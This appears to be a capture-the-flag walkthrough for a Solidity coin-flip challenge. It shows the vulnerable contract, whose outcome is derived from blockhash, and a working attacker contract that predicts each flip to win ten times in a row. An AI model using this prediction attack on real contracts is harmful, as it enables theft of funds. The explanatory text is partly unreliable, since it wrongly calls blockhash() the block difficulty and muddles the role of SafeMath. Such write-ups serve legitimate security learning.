 # Challenge 3

<img src="./images/BigLevel3.svg" alt="3" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Challenge
---
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

1. `blockhash()` - difficulty of the block (part of the transaction.)
2. `block.number` - current block number.

Solution 
---
1. So we are checking if the blockhash(block difficulty) is not same as the previous one then it will check if the blockvalue / FACTOR is 1 then it will solve the challenge and check if the all the math operations are working correctly or not so we will implement SafeMath Library by openzeppelin.

2. We Will get instance address and create new contract and check if the side is flipped or  not here's the code for challenge. Remember we need to win 10 times so you have to make flip 10 times true.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract CoinFlipAttack {
    CoinFlip coinFlipAddress;
     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
     using SafeMath for uint256;

    constructor(address _addr) {
        coinFlipAddress = CoinFlip(_addr);
    }

    function solveFlip() external returns(bool) {
    uint256 blockValue = uint256(blockhash(SafeMath.sub(block.number,1)));
          
    uint256 coinFlip = SafeMath.div(blockValue,FACTOR);
    bool  side = coinFlip == 1 ? true : false;

    require(side == true);
    bool result = coinFlipAddress.flip(side);

    return result;
    }
}
```

For Checking How many times you won get the instance address and paste in the 
Below deploy button you will see at address paste it and click you will see your instance contract state variables and function those are public.
another way to check using abi
```js
await contract.consecutiveWins()
```
 Click on the consecutiveWins see how many times you won if it is 10 then submit the instance, you will see the cleared level in the console.